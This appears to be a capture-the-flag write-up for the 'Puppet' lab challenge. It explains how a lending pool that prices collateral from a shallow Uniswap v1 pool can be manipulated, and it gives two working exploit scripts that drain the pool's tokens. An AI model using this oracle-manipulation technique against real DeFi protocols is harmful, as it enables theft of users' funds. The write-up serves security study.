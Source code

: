 # Puppet

## analyse

the whole business

![](https://moe.photo/images/2023/02/25/puppet_correct.png)

borrow(): you can borrow DVT from the lendingPool, but you should Mortgage twice the depositRequired while the depositRequired depends on the proportion of uniswapPair.

```solidity
    // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(borrowAmount);
        
        require(msg.value >= depositRequired, "Not depositing enough collateral");
        
        if (msg.value > depositRequired) {
            payable(msg.sender).sendValue(msg.value - depositRequired);
        }

        deposits[msg.sender] = deposits[msg.sender] + depositRequired;

        // Fails if the pool doesn't have enough tokens in liquidity
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, depositRequired, borrowAmount);
    }
```

My understanding is that we gave PuppetPool 10000 DVT at the beginning, and then went to the exchange to addLiquidity [10ETH : 10DVT]. lendingPool lends DVT according to the liquidity ratio of the exchange .
But when the PuppetPool is lent, it needs to charge twice the deposit[depositRequired]. At the beginning, the liquidity ratio is 1:1, and we will make the ratio unbalanced. For example 0.1ETH to exchange for 1000DVT, and then the depositRequired will become very small. The 25ETH of attacker is enough to exchange for twice the depositRequired of 10000DVT. 

Such a shallow pool can be easily manipulated. We can manipulate the proportion of uniswap.

The solution is the following:

1. Exchange the attackers 1000 DVT token to ~ 9.9 ETH using the v1 pool (We can’t buy all the ETH from the pool).
2. This will cause that 1 DVT = 0.1 / 1010 (0,00009901 ETH)
3. To borrow the 100000 DVT we will need ~19.95 ETH
4. Borrow all DVT tokens available from the `PuppetPool` .

the uniswap v1 we should learn, this is the github [link](https://github.com/PhABC/uniswap-solidity/blob/master/contracts/uniswap/UniswapExchange.sol).

## solution

tokenToEthSwapInput and tokenToEthSwapOutput: one of them is counting the ETH which u will get base on how much token u provide, the other is to calculate the token required to obtain a specific number of ETHs

- solution 1

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
    await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
        ATTACKER_INITIAL_TOKEN_BALANCE.sub(1),
        1,
        9999999999
    );
    // 先计算borrow所有的token需要多少的eth
    const amount = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value:amount});

});
```

- solution 2


```js

    it('Exploit', async function () {
        // approve all tokens from attacker to exchange
        await this.token.connect(attacker).approve( this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);

        //Buy as many ETH as possible with attackers available DVT token, this will break the 1:1 ratio
        // drives down the needed collateral drastically
        const tx = await this.uniswapExchange.connect(attacker).tokenToEthSwapOutput(ethers.utils.parseEther('9.9'),
            ATTACKER_INITIAL_TOKEN_BALANCE,
            (await ethers.provider.getBlock('latest')).timestamp * 2,
            { gasLimit: 1e6 }
        );
        await tx.wait();

        const depositRequired = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        expect(depositRequired < ATTACKER_INITIAL_ETH_BALANCE).to.be.true;
        // borrow the max amount of token
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: depositRequired})
    });
```

































